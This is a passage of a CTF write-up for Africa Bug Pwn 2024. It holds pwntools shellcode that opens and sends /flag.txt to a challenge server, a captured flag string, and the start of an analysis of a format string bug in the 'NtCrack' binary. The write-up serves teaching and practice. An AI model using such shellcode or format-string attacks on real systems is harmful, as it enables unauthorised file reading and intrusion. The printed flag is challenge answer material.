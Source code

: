 ```python
shellcode = shellcraft.openat(-100, "/flag.txt",0)
shellcode += shellcraft.sendfile(1, 3, 0x0, 4000)
shellcode=asm(shellcode)

# Fill remaining space with null bytes until our shellcode is 0x1000 bytes in len
payload=shellcode + b'\x00' * (0x1000-len(shellcode))

# Send each byte at a time
for i in range(0x1000): 
	target.send(chr(payload[i])) 
target.interactive()

```

![](/images/Africa_Bug_Pwn_2024_Writeups/1_universe_flag.png)

```python
battleCTF{Are_W3_4l0ne_!n_7he_univ3rs3?_0e2899c65e58d028b0f553c80e5d413eeefef7af987fd4181e834ee6}
```





### NtCrack

This was an interesting Pwn challenge that took me a while to solve. Checking the file type of the binary provided, we can see that the binary is a `64-bit` binary that is not stripped. The binary also has no stack canaries but has `RERLO, NX and PIE` enabled

![](/images/Africa_Bug_Pwn_2024_Writeups/binary_permissions.png)

Running the binary we can see that the application allows us to enter any NTLM hash after which it will query for the plaintext password in `ntlm.pw` then return it to us.

![](/images/Africa_Bug_Pwn_2024_Writeups/run_program.png)

Opening up the program in Ghidra, we see the main function accepts input and passes it to the `curl_ntlm_pw` function. However, when the input is empty, the program prints `No hash was provided ..` and exits. Also, we can see that there is a format string vulnerability at the printf indicated by the arrow

![](/images/Africa_Bug_Pwn_2024_Writeups/main_code.png)

The `curl_ntlm_pw` function just fetches the plaintext password and returns to the main function, hence the program runs in a loop. 

![](/images/Africa_Bug_Pwn_2024_Writeups/curl_code.png)

There is also a callback function with the following code 

![](/images/Africa_Bug_Pwn_2024_Writeups/write_callback.png)

Now that we know that the binary is vulnerable to a format string bug, we can enter a format string payload and try to see what addresses get leaked and how we can leverage them for exploitation.

